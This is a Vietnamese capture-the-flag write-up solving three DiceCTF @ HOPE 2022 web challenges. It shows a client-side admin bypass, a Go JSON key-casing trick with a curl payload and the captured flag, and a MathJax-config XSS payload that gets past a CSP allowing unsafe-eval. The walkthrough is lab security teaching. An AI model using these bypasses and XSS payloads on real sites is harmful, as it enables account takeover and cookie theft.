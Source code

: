## HOPE-CTF-2022

Link tất cả challenges [DiceCTF @ HOPE 2022](https://github.com/dicegang/hope-2022-challenges)

### flag-viewer

Bài này không filter ở server mà filter ở phía client side, ta có thể bypass bằng console.
```js
document.querySelector('input[name="user"]').value = 'admin';
document.querySelector('form').submit();
```

### Point
Bài này là một bài về golang.
Set up từ archive của `HOPE`:
```s
docker build -t point .
docker run --name point -d -p 5001:8081 imageID
```
Source:
```go
package main

import (
	"encoding/json"
	"fmt"
	"io"
	"log"
	"net/http"
	"os"
	"strings"
)

type importantStuff struct {
	Whatpoint string `json:"what_point"`
}

func main() {
	flag, err := os.ReadFile("flag.txt")
	if err != nil {
		panic(err)
	}

	http.HandleFunc("/", func(w http.ResponseWriter, r *http.Request) {
		switch r.Method {
		case http.MethodGet:
			fmt.Fprint(w, "Hello, world")
			return
		case http.MethodPost:
			body, err := io.ReadAll(r.Body)
			if err != nil {
				fmt.Fprintf(w, "Something went wrong")
				return
			}

			if strings.Contains(string(body), "what_point") || strings.Contains(string(body), "\\") {
				fmt.Fprintf(w, "Something went wrong")
				return
			}

			var whatpoint importantStuff
			err = json.Unmarshal(body, &whatpoint)
			if err != nil {
				fmt.Fprintf(w, "Something went wrong")
				return
			}

			if whatpoint.Whatpoint == "that_point" {
				fmt.Fprintf(w, "Congrats! Here is the flag: %s", flag)
				return
			} else {
				fmt.Fprintf(w, "Something went wrong")
				return
			}
		default:
			fmt.Fprint(w, "Method not allowed")
			return
		}
	})

	log.Fatal(http.ListenAndServe(":8081", nil))

}
```

Giải thích về json trong golang: `https://viblo.asia/p/huong-dan-json-trong-golang-yMnKMzXjZ7P`

Đầu tiên có một struct có biến là `Whatpoint`, và nếu encode json thì `Whatpoint` sẽ mã hóa thành `what_point`
```go
type importantStuff struct {
	Whatpoint string `json:"what_point"`
}
```

Trong phương thức POST, nếu chứa request user gửi lên chứa `what_point`hay `\\` thì sẽ trả về `Something went wrong`
Sau đó nó thực hiện decode json body rồi lưu vào biến `whatpoint`
Nếu như decode ra được thuộc tính `whatpoint.Whatpoint`==`"that_point"` thì send flag.

Bây giờ ta cần phải làm sao để bypass hàm check `what_point`

Trong json.Unmarshal của golang, nó sẽ chấp nhận tên cả ở uppercase và lowercase.
Ví dụ:
```go
package main

import (
	"encoding/json"
	"fmt"
)

type importantStuff struct {
	Whatpoint string `json:"what_point"`
}

func newImportantStuff(str string) importantStuff {
	n := importantStuff{
		Whatpoint: str,
	}
	return n
}

func main() {
	js := newImportantStuff("that_point")
	byteArray, err := json.Marshal(js)
	if err != nil {
		fmt.Println(err)
	}
	fmt.Println(string(byteArray))
	var whatpoint importantStuff
	jsonString := `{"WhAt_point":"that_point"}`//{"what_point":"that_point"}
	errr := json.Unmarshal([]byte(jsonString), &whatpoint)
	if errr != nil {
		panic(errr)
	}
	fmt.Println(whatpoint)
}
//return
//{"what_point":"that_point"}
//{that_point}
```
Payload: `curl -X POST -d '{"wHat_point":"that_point"}' 192.168.83.128:5001`
Hoặc với httpie: `http POST localhost:5001 <<< '{"wHat_point":"that_point"}'`
```s
HTTP/1.1 200 OK
Content-Length: 63
Content-Type: text/plain; charset=utf-8
Date: Thu, 30 Mar 2023 05:56:57 GMT

Congrats! Here is the flag: hope{cA5e_anD_P0iNt_Ar3_1mp0rT4nT}
```

### MK

Build: `docker build -t mk .`

Run: `docker run -d -p 5001:3000 mk`


Trong source có sử dụng thư viện MathJax để render user input. Version là 2.7.9
`Content-Security-Policy`:
* script-src-attr 'none': Không cho sử dụng thuộc tính trên thẻ <script> trong HTML.
* script-src 'self' 'unsafe-eval': Chỉ cho tải src trong thẻ script cùng domain, và đặc biệt là nó cho phép thực thi mã tải từ thẻ script đó.

Trong web.js, nó sử dụng fastify api để lắng nghe và render (Với web này, mục đích chính của nó là tạo nội dung xong render.js sẽ fetch nó về). 

```js
fastify.get('/render', {
	schema: {
		query: {
			type: 'object',
			properties: {
				content: {
					type: 'string',
					maxLength: 1000
				}
			},
			required: ['content']
		}
	}
}, (req, res) => {
	res.type('text/html').send(md.render(req.query.content));
});
```
Nếu chúng ta truy cập vào /render?content=aaa thì aaa sẽ in ra ở màn hình bởi dòng `res.type('text/html').send(md.render(req.query.content));`.

Vậy là ở đây chúng ta có 2 nơi để cho input và render, 1 là ở trang chính và 2 là đưa content vào /render

Và ở đây lỗi nằm ở thư viện MathJax với type="text/x-mathjax-config", thư viện này nó để config cấu hình, ta có thể trigger được xss như sau:
```js
<script type="text/x-mathjax-config">alert(1)</script><script type="text/javascript" src="/MathJax/MathJax.js?config=TeX-MML-AM_CHTML"></script>
```

Cơ chế của nó là tải thư viện mathjax lên, và với route content policy có unsafe-eval thì `<script type="text/x-mathjax-config">alert(1)</script>` sẽ thực thi bởi thư viện MathJax.
Ví dụ như trang web của bạn cho phép tải script từ example.com, và nếu content policy được set là unsafe-eval thì nó sẽ thực thi những hàm ở bên trong example.com:
```js
<script src=example.com></script>
//Trang example.com có nội dung là alert(1)
```

Bây giờ ta chỉ cần send payload lấy cookie cho adminbot. Vì mình làm lại sau khi challenge đã diễn ra nên không có adminbot để send cookie.

Nói thêm một chút, nếu như chúng ta sửa content policy thành `script-src 'self' cdnjs.cloudflare.com 'unsafe-eval'` thì payload sau cũng sẽ trigger xss.
```s
http://192.168.83.128:5001/render?content=<script type="text/x-mathjax-config">alert(1)</script><script type="text/javascript" async src="https://cdnjs.cloudflare.com/ajax/libs/mathjax/2.7.7/MathJax.js?config=TeX-MML-AM_CHTML"></script>
```